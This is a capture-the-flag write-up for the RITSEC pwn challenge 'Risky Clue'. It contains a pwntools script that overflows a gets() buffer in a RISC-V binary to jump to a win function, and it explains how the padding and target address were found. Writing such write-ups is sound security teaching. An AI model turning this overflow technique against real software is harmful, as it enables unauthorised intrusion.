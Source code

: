 # Risky Clue
Pwn - 316 points

```python
from pwn import *

#p = process("./clue")

p = remote("ctf.ritsec.club", 30839)

#payload = b"A"*111

payload = b"letter\x00"
payload += b"A"*105
payload += p64(0x10448)


p.sendline(payload)

p.interactive()
```

This challenge was simply a buffer overflow to a win function. Unfortunately, the architecture is risc-v, so I had trouble with dynamic analysis.

![image](https://github.com/RPISEC/Writeups/assets/29514104/b5ad0519-1dd8-4c51-833a-c777f8fd1505)

Nevertheless, Ghidra will analyze risc-v for free:

![image](https://github.com/RPISEC/Writeups/assets/29514104/c4c88174-cc57-4ffc-b2c5-619bd8abf3a0)

![image](https://github.com/RPISEC/Writeups/assets/29514104/7e6b55c5-cecd-41d2-8bf8-2c73fe1f9276)

The binary uses `gets()`, so it is vulnerable to a buffer overflow.

The file has PIE disabled, so we can use the addresses directly from Ghidra.

![image](https://github.com/RPISEC/Writeups/assets/29514104/4d9055ba-f6c3-481e-8bfb-bc344d430a6d)

![image](https://github.com/RPISEC/Writeups/assets/29514104/d302f268-3193-4adb-b33c-23af3a2e1900)

We will use `0x10448` as the address to the win function.

Next, we just use to use an intricate guess and check to find the proper amount of padding. Without a debugger available, I kept writing A's until the program seg-faulted, at which point I knew that's where I was likely overwriting the return address. All that was left to do was to craft the final payload.

(I don't think you actually have to solve the riddle for the exploit to work, but I haven't verified that.)
